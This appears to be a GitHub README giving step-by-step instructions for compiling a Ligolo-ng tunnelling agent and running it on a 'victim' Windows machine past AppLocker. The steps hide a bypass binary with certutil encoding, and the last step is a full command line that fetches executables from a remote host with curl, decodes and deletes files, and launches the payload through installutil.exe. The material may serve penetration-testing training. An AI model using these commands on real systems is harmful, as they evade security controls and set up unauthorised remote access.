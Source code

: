 ### <ins>Step 1: Modify the Ligolo-ng agent's main file</ins>
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  - <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### <ins>Step 2: Compile the agent<ins/> 
  - Use the following command to compile: 
  - `GOOS=windows go build -o agent.exe cmd/agent/main.go`

### <ins>Step 3: Encode the ApplockerBypassExternalBinary executable with certutil<ins/> 
  - `certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.txt`

### <ins>Step 4: Execution on the Target Machine<ins/>
  - Name the agent executable `ligolo-agent.exe` 
  - Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### <ins/>Step 5: Execution in Action!<ins/> 
  - On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
